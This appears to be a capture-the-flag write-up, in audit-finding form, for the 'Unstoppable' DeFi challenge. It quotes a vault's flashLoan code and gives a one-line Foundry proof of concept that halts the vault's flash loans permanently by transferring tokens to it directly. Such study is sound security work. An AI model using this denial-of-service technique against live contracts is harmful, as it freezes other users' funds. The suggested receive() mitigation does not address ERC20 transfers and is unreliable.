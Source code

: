 # Unstoppable

There's a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There's a monitoring contract to check liveness of the flashloan feature.

Starting with 10 DVT tokens in balance, show that it's possible to halt the vault. It must stop offering flash loans.


### [H-1] Attacker can transfer underlyin tokens to the vault without deposit, making the contract halt

**Description:**\
In a point of `UstoppableVaul::flashLoan` function, the shares from the totalSupply (vault's deposited tokens) is compared with the totalAssets() (tokens property of the vault). some user can transfer an amount of the allowed token to de vault, making to this comparision revert the transaction and continuing reverting

<details>
<summary>UstoppableVaul::flashLoan</summary>

```javascript
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();

 @>     if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```
</details>

**Impact:**\
The voult will be halt permanently

**Proof of Concept:**\
The following test pass the challenge:

```javascript
function test_unstoppable() public checkSolvedByPlayer {
    token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE);
    console.log("Vault assets balance: ", vault.totalAssets());
    console.log("Vault shares balance: ", vault.convertToShares(vault.totalSupply()));
}
```
**Recommended Mitigation:**\
Implement a `receive()` function that update the realated balances.


